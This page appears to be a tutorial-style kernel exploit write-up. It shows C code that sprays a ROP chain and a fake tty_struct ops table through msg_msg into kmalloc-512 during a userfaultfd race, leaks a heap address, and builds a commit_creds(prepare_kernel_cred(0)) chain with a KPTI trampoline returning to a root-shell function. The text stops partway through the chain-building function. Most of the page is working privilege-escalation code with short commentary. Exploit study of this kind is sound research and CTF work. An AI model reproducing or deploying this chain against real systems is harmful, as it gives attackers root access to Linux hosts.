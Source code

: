 <br/>

The following code snippet demonstrates how to spray an ROP chain and a fake function table onto the kernel heap and subsequently leak the heap address.
```c
    /* rop spray in kmalloc-512 */
    char secondary_buf[0x1ea - 0x30];
    memset(secondary_buf, 0, sizeof(secondary_buf));
    build_rop(secondary_buf);

    printf("[*] Waiting for userfaultd to finish ..\n");
    release_page_fault = true;

    for(int i = 0; i < 0x20; i++)
    {
        send_msg(qid[1], secondary_buf, 0x1ea, 0x1337);
    }

    puts("[+] Spray ROP Chain in kmalloc-512");

    while(release_page_fault == true);
    printf("[+] Page fault lock released\n");

    uint64_t *leak2 = recv_msg(qid[1], 0x2000);
    next = *(leak2 + (0x1d8 / sizeof(uint64_t))) + 0x30;
    fake_table = next + 0x100;

    printf("[+] msg_msg->m_list.next leak : 0x%lx\n", next - 0x30);
    printf("[+] Fake tty_struct->ops function table: 0x%lx\n", fake_table);
```

<br/>

The following code snippet demonstrates how to configure the ROP Chain and Fake Function Table in the buffer. The Fake Function Table is strategically placed at an address offset by 0x100 from the beginning of the ROP chain.
```c
void build_rop(char *buf)
{
    uint64_t *rop = (uint64_t *)&buf[0x0];
    int k = 0;

    /* commit_creds(prepare_kernel_cred(0)) */
    rop[k++] = kernel_base + 0x15e8; // pop rdi ; ret
    rop[k++] = 0x0;
    rop[k++] = kernel_base + 0x8a800; // prepare_kernel_cred
    rop[k++] = kernel_base + 0x49fb8; // pop rdx ; ret
    rop[k++] = 0x8;
    rop[k++] = kernel_base + 0xa6b081; // cmp rdx, 8 ; jne 0xffffffff81a6b05e ; ret
    rop[k++] = kernel_base + 0x3dfdb4; // mov rdi, rax ; jne 0xffffffff813dfda1 ; xor eax, eax ; ret
    rop[k++] = kernel_base + 0x8a3c0; // commit_creds

    /* kpti trampoline */
    rop[k++] = kernel_base + 0xc00a45; // swapgs_restore_regs_and_return_to_usermode + 22
    rop[k++] = 0x0; // rax
    rop[k++] = 0x0; // rdi
    
    rop[k++] = (unsigned long)&getRootShell;
    rop[k++] = (unsigned long)usr_cs;
    rop[k++] = (unsigned long)usr_rflags;
    rop[k++] = (unsigned long)usr_sp;
    rop[k++] = (unsigned long)usr_ss;

    uint64_t *func_table = (uint64_t *)&buf[0x100];
```